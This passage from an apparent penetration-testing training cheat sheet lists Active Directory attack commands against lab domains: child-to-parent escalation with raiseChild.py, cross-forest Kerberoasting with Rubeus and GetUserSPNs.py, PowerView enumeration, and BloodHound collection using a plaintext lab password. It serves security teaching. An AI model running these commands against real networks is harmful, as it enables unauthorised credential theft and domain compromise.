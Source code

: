 | `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm` | Impacket tool that automatically performs an attack that escalates from child to parent domain. |

  
  
  

# Trust Relationships - Cross-Forest

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL \| select SamAccountName` | PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host. |

| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc \| select samaccountname,memberof` | PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host. |

| ` .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap` | Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host. |

| `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL` | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host. |

| `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host. |

| `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley` | Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host. |

| `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2` | Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host. |

| `zip -r ilfreight_bh.zip *.json`                             | Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI. |

